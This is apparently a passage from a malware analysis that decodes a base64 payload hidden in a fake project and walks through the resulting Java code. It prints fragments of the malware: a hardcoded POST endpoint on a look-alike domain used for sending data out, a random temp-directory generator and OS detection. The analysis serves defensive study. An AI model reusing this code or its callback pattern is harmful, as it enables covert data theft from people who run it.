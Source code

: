 As it was commented, it is `base64` content which will be decoded and later written in a `.java` file located in a temporary directory.

Decoding the base64 content of this variable we get the following output, which is far from being a simple log file:
  
<details><summary>Java Code (112 lines)</summary></details>

What does this code do?

- Multiple imports to grant the snippet ability to make HTTP connections, encode and decode Base64, manipulate files, throw random numbers and use threading

```java
import java.io.IOException;
import java.net.URI;
import java.net.http.HttpClient;
import java.net.http.HttpRequest;
import java.net.http.HttpResponse;
import java.nio.charset.StandardCharsets;
import java.util.Base64;
import java.util.Random;
import java.io.BufferedWriter;
import java.io.File;
import java.io.FileWriter;
import java.lang.Thread;
```

- Declares the malicious site git-hub.me/view.php, where a POST request will be sent soon.

```java
private static final String POST_URL = "https://www.git-hub.me/view.php";
```

- Declares a 8-character random string composed by numbers, which will be later used to create a temporary directory.

```java
private static String randGen() throws IOException {
  String strPool = "123456789";
  StringBuilder sb = new StringBuilder();
  Random rand = new Random();

  for (int i=0; i<8; i++){
      sb.append(strPool.charAt(rand.nextInt(strPool.length())));
  }

  return sb.toString();
}
```

- Identifies operating system in a basic way (just by platform name).

```java
private static String getOperatingSystem() {
  String os = System.getProperty("os.name");
  String result = null;

  if (os.contains("Windows"))
      result = "0";
  else if (os.contains("Linux"))
      result = "2";
  else if (os.contains("Mac OS X"))
      result = "1";
  return result;
}
```
